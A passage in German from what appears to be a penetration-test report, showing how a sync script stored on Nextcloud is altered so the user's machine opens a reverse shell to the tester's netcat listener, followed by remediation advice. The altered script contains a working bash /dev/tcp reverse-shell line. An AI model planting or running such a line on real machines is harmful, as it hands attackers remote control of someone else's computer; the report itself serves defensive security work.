 \subsection*{Proof of concept} 
Der Nutzer "butterbluem" nutzt ein einfaches Bash-Skript, um das Home-Verzeichnis seines Rechners mit der Nextcloud zu synchronisieren. Dieses Skript ist ebenfalls in den Dateien des Nutzers auf der Nextcloud zu finden. Durch die Anpassung des Skripts kann eine Reverse Shell initiiert werden, da das Skript regelmäßig auf dem Rechner "butterbluem" ausgeführt wird. Zunächst wird dazu ein Netcat-Listener auf dem System des Angreifers gestartet, wie in \autoref{listing:netcat-listener} beschrieben. Anschließend muss das Bash-Skript zur Synchronisation angepasst werden, wie in \autoref{listing:butterbluem:backup} dargestellt. Beim darauffolgenden Aufruf des Bash-Skripts wird die Revers Shell gestartet und der Angreifer erhält vollen Zugriff auf den Rechner "butterbluem". Ein Beweisscreenshot ist in \autoref{fig:08_butterbluem_proof} dargestellt. 

\begin{listing}[!ht]
\begin{verbatim}
#!/bin/bash


bash -c 'bash -i >& /dev/tcp/10.0.32.5/9001 0>&1'

rsync -avP /mnt/backup/* /home/butterbluem/
\end{verbatim}
\caption{Datei backup-home.sh}
\label{listing:butterbluem:backup}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/08_butterbluem_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:08_butterbluem_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Das Bash-Skript zur Synchronisierung des Home-Verzeichnisses kann durch eine digitale Signatur oder ein Hash abgesichert werden. Dadurch können Änderungen an dem Skript erkannt werden und das Skript dadurch abgebrochen werden.
    \item Mit Firewall-Regeln können außerdem Reverse-Shell Verbindungen unterbunden werden.
\end{itemize}